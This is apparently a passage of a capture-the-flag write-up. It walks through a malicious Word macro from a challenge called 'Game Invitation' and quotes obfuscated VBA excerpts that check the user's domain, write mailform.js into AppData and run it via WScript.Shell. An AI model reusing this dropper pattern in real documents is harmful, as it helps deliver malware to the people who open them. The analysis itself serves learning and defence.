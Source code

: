 ```python
    password_to_use = hashed_password
    
    decrypt_file(file_to_decrypt, password_to_use)
```


![](https://i.imgur.com/uugjHuD.png)

![](https://i.imgur.com/F1XBI2w.png)

---

## Game Invitation
> Solved by : thewhiteh4t


- Challenge talks about receiving a malicious `docm` file in email
- We managed to solve the challenge using windows and MS Office 2016
- We inspected the `macros` in the document and here is a brief flow : 
    - it checks for host domain and proceeds if it matches
```
chkDomain = "GAMEMASTERS.local"
strUserDomain = Environ$("UserDomain")
If chkDomain <> strUserDomain Then
```
- opens the current document as binary mode 
`Open (ActiveDocument.FullName) For Binary As #gIvqmZwiW`
    - uses regex to match a set pattern
```
    SwMbxtWpP = StrConv(CbkQJVeAG, vbUnicode)
    Dim N34rtRBIU3yJO2cmMVu, I4j833DS5SFd34L3gwYQD
    Dim vTxAnSEFH
        Set vTxAnSEFH = CreateObject("vbscript.regexp")
        vTxAnSEFH.Pattern = "sWcDWp36x5oIe2hJGnRy1iC92AcdQgO8RLioVZWlhCKJXHRSqO450AiqLZyLFeXYilCtorg0p3RdaoPa"
        Set I4j833DS5SFd34L3gwYQD = vTxAnSEFH.Execute(SwMbxtWpP)
```
- gets `AppData` dir path and writes `mailform.js`
```
    kWXlyKwVj = Environ("appdata") & "\Microsoft\Windows"
    Set aMUsvgOin = CreateObject("Scripting.FileSystemObject")
    If Not aMUsvgOin.FolderExists(kWXlyKwVj) Then
    kWXlyKwVj = Environ("appdata")
    End If
    Set aMUsvgOin = Nothing
    Dim K764B5Ph46Vh
    K764B5Ph46Vh = FreeFile
    IAiiymixt = kWXlyKwVj & "\" & "mailform.js"
```
- uses `wscript` to run `mailform.js`
```
    Set R66BpJMgxXBo2h = CreateObject("WScript.Shell")
    R66BpJMgxXBo2h.Run """" + IAiiymixt + """" + " vF8rdgMHKBrvCoCp0ulm"
```
